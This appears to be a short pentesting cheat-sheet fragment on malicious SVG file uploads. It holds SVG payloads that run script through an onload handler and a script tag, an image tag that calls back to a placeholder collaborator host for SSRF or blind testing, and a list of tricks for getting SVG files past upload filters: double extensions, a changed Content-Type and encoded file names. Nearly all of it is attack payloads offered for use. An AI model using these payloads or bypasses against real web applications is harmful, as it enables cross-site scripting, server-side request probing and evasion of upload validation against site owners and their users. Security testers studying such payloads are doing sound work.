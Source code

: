 ```svg
<!-- onload alert -->
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>

<!-- script tag -->
<svg xmlns="http://www.w3.org/2000/svg"><script>alert(document.domain)</script></svg>

<!-- external image -> useful for SSRF/blind testing -->
<svg xmlns="http://www.w3.org/2000/svg">
  <image href="http://YOUR-COLLAB.DOMAIN/track?test=svg"/>
</svg>
```
- Bypass:
  - Change `exploit.svg` to `exploit.svg.png` or `exploit.svg.jpg`
  - Modify `Content-Type` to `image/svg+xml` or `text/xml`
  - Send as `.txt` or `.html` with SVG content
  - URL-encode `exploit%2Esvg` or just add **spaces/newlines**
